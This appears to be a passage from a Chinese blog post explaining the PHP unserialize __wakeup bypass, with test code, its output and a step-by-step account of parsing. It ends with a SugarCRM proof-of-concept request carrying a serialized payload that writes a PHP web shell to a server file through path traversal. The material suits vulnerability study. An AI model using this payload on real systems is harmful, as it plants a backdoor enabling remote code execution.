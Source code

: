 ```
}


#$s = new Test("Rem", 14, 'girl');
#$g = serialize($s);
#echo $g;

$f = 'O:4:"Test":3:{s:10:"'."\0Test\0".'name";s:3:"Rem";s:6:"'."\0*\0".'age";i:14;s:3:"sex";s:4:"girl";}';
$f2 = 'O:4:"Test":4:{s:10:"'."\0Test\0".'name";s:3:"Rem";s:6:"'."\0*\0".'age";i:14;s:3:"sex";s:4:"girl";}';
$c = unserialize($f);
$c2 = unserialize($f2);
```

输出结果
```
wakeup

Notice: unserialize(): Unexpected end of serialized data in /home/wwwroot/default/test/test3.php on line 29
object(Test)#2 (3) { ["name":"Test":private]=> string(3) "Rem" ["age":protected]=> int(14) ["sex"]=> string(4) "girl" }
Notice: unserialize(): Error at offset 81 of 83 bytes in /home/wwwroot/default/test/test3.php on line 29
object(Test)#1 (3) { ["name":"Test":private]=> NULL ["age":protected]=> int(14) ["sex"]=> string(4) "girl" } 
```

反序列化`$f` -> 执行`__wakeup` -> 反序列化`$f2` -> 对象属性个数错误 -> 销毁, 执行`__destruct` -> 程序结束销毁`$c`, 执行`__destruct`

所以有了上面的输出结果

### 总结

```
$f2 = 'O:4:"Test":4:{s:10:"'."\0Test\0".'name";s:3:"Rem";s:6:"'."\0*\0".'age";i:14;s:3:"sex";s:4:"girl";}';
```

针对上面这串序列化字符串猜测反序列化是从左往右执行, 首先匹配到O, 得知是一个对象 -> 匹配到4, 得知对象名为4个字符串 -> 匹配对象名`Test`, 搜索自己的内存空间检测是否定义过该对象, 得知定义过, 分配sizeof(Test)大小的内存空间 -> 匹配到4, 得知有给4个对象属性赋值 -> 第一个匹配到s, 得知是字符串变量 -> 匹配到10, 得知变量名长度为10 -> 匹配变量名, 发现开头是"\0"+对象名+"\0", 得知是private变量, 其后为变量名 -> (重点结束开始快进)匹配s:3:"Rem", 变量的值为长度为3的字符串Rem -> ........匹配结束第三个属性, 匹配第四个, 匹配到}, 出错, 退出序列化, 销毁对象, 执行__destruct方法(就是这里跳过了__wakeup方法直接执行__destruct方法)

然后稍微看看SugarCRM的PoC
```
data = {
    'method': 'login',
    'input_type': 'Serialize',
    'rest_data': 'O:+14:"SugarCacheFile":23:{S:17:"\\00*\\00_cacheFileName";s:15:"../custom/1.php";S:16:"\\00*\\00_cacheChanged";b:1;S:14:"\\00*\\00_localStore";a:1:{i:0;s:29:"<?php eval($_POST[\'HHH\']); ?>";}}',
}
```
